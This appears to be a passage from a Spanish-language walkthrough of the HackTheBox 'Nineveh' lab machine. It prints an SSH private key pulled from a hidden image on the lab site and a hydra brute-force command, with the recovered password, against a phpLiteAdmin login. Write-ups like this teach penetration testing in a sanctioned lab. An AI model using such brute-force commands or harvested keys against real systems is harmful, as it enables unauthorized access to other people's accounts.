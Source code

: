 
A nivel `https://nineveh.htb/` encontramos que en la ruta `secure_notes` hay una imagen de extension `.php`.
Nos la descargamos y miramos a ver si encontramos algo interesante:
```bash
Sacamos informacion oculta de la imagen en .png encontrada en la ruta https://nineveh.htb/secure_notes/nineveh.png 

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY/
/CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc
/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX
/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC
/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7
/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R
amrois@nineveh.htb
```
Y encontramos al posible usuario con el que conectarnos con esta clave privada de SSH
`amrois`

Guardamos la clave ssh privada encontrada con permisos 600 y hacemos memoria, ya que en los servicios abiertos no veiamos ningun servicio ssh abierto en la maquina. 

Proseguimos por otra via enumerando el directorio o ruta `/db/`
Encontramos algo interesante en /db/
```bash
phpLiteAdmin v1.9

Warning:  rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114
```
Probamos a hacer fuerza bruta con `HYDRA`: 
```bash
 # hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 httpS-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V 
 
 [443][http-post-form] host: 10.10.10.43   login: none   "password: password123"
```